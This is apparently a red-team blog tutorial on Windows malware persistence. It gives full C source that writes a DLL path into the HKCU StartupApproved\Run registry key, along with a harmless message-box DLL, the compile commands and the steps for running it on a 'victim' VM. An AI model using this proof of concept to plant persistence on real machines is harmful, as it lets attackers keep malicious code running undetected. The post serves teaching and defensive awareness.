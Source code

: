 ```yaml
---
title:  "Malware development: persistence - part 24. StartupApproved. Simple C example."
date:   2024-03-12 03:00:00 +0300
header:
  teaser: "/assets/images/117/2024-03-15_01-04.png"
categories:
  - persistence
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/117/2024-03-15_01-04.png){:class="img-responsive"}    

This post is based on my own research into one of the another interesting malware persistence tricks: via StartupApproved Registry key.     

### StartupApproved

The very first post in the series about persistence, I wrote about one of the most popular and already classic techniques, via [Registry Run keys](/tutorial/2022/04/20/malware-pers-1.html).      

An uncommon Registry entry utilized by the standard "startup" process (i.e., the one mostly controlled by Windows Explorer, such as the `Run` and `RunOnce` keys, the Startup folder, etc.) after `userinit.exe` completes its operation, is located at the following location in the Registry:    

```bash
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run
```

Turns out, this key is populated when entries are enabled or disabled via the Windows Task Manager's `Startup` tab:     

![pers](/assets/images/117/2024-03-15_00-47.png){:class="img-responsive"}    

The good news is that we can use this registry path for persistence.     

### practical example

First of all, check Registry keys by the following command:    

```powershell
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved" /s
```

![pers](/assets/images/117/2024-03-14_23-57_1.png){:class="img-responsive"}    

At the next step, as usually, create our "evil" application (`hack.c`):     

```cpp
/*
hack.c
simple DLL messagebox
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

As usually, just `meow-meow` messagebox.      

Then we just modifying our  `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved` registry key, like this (`pers.c`):     

```cpp
/*
pers.c
windows persistence
via StartupApproved
author: @cocomelonc
https://cocomelonc.github.io/malware/2024/03/12/malware-pers-24.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  BYTE data[] = {0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};

  const char* path = "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\StartupApproved\\Run";
  const char* evil = "Z:\\2024-03-12-malware-pers-24\\hack.dll";

  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) path, 0, KEY_WRITE, &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)evil, 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : "successfully set registry value :)\n");

  // close the registry key
  RegCloseKey(hkey);

  return 0;
}
```

As you can the the logic of our Proof of Concept is pretty simple - we set the value of the registry entry to `0x02 0x00...` binary value.      

### demo

Let's go to see everything in action. First of all, compile our "malware" DLL:      

```bash
x86_64-w64-mingw32-g++ -shared -o hack.dll hack.c -fpermissive
```

![pers](/assets/images/117/2024-03-14_21-50.png){:class="img-responsive"}    

Then, compile our PoC:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/117/2024-03-14_21-51.png){:class="img-responsive"}    

Finally, run it on the victim's machine. In my case, for Windows 10 x64 v1903 VM, it is looks like this:     

```powershell
.\pers.exe
```

![pers](/assets/images/117/2024-03-15_00-46.png){:class="img-responsive"}    

As you can see, I also checked registry again:     

```powershell
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved" /s
```

![pers](/assets/images/117/2024-03-15_00-46_1.png){:class="img-responsive"}    

Then, logout and login again:     

![pers](/assets/images/117/2024-03-15_00-50.png){:class="img-responsive"}    

![pers](/assets/images/117/2024-03-15_00-51.png){:class="img-responsive"}    

But unexpectedly it didn't work for me...    

Then, I just update the name of entry:     

![pers](/assets/images/117/2024-03-15_00-54.png){:class="img-responsive"}    

Logout and login, little bit wait.... and it's worked perfectly....

![pers](/assets/images/117/2024-03-15_01-03.png){:class="img-responsive"}    

![pers](/assets/images/117/2024-03-15_01-04.png){:class="img-responsive"}    

So I updated one line in my script:    

```cpp
/*
pers.c
windows persistence
via StartupApproved
author: @cocomelonc
https://cocomelonc.github.io/malware/2024/03/12/malware-pers-24.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  BYTE data[] = {0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};

  const char* path = "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\StartupApproved\\Run";
  const char* evil = "C:\\temp\\hack.dll";

  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) path, 0, KEY_WRITE, &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)evil, 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : "successfully set registry value :)\n");

  // close the registry key
  RegCloseKey(hkey);

  return 0;
}
```

But there is a caveat. Sometimes when I tested this feature, it launched like Skype for me:     

![pers](/assets/images/117/2024-03-14_23-56.png){:class="img-responsive"}    

![pers](/assets/images/117/2024-03-14_23-57.png){:class="img-responsive"}    

As you can see, everything worked perfectly as expected! =^..^= :)    

This technique is used by APT groups like [APT28](https://attack.mitre.org/groups/G0007/), [APT29](https://attack.mitre.org/groups/G0016/), [Kimsuky](https://attack.mitre.org/groups/G0094/) and [APT33](https://attack.mitre.org/groups/G0064/) in the wild. In all honesty, this method is widely employed and widespread due to its extreme convenience in deceiving the victims.     

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

> This is a practical case for educational purposes only.      

[ATT&CK MITRE: T1547.001](https://attack.mitre.org/techniques/T1547/001/)     
[Malware persistence: part 1](/tutorial/2022/04/20/malware-pers-1.html)       
[APT28](https://attack.mitre.org/groups/G0007/)    
[APT29](https://attack.mitre.org/groups/G0016/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)    
[APT33](https://attack.mitre.org/groups/G0064/)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-03-12-malware-pers-24)     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
